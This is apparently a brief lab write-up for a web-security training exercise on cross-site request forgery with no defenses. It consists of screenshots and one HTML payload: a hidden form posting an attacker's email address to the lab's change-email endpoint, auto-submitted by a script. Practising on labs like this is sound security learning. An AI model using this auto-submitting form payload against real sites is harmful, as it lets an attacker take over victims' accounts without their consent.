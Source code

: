 # Lab: CSRF vulnerability with no defenses

![image](https://user-images.githubusercontent.com/68326057/128639966-80ba20c3-ea94-460f-9343-ec6f3b758ad2.png)

# Details

In exploit Lab Payload Made

```html
<form method="POST" action="https://acc91fb61e27e99d81b7e5de00b600ce.web-security-academy.net/my-account/change-email">
     <input type="hidden" name="email" value="hacker@packer.macker">
</form>
<script>
      document.forms[0].submit();
</script> 
```

![image](https://user-images.githubusercontent.com/68326057/128640438-9b17d4b9-339e-4056-8ac6-7cec41fc4c8c.png)


![image](https://user-images.githubusercontent.com/68326057/128640467-9fc2c541-99ff-432c-ae76-d5a66bab5332.png)
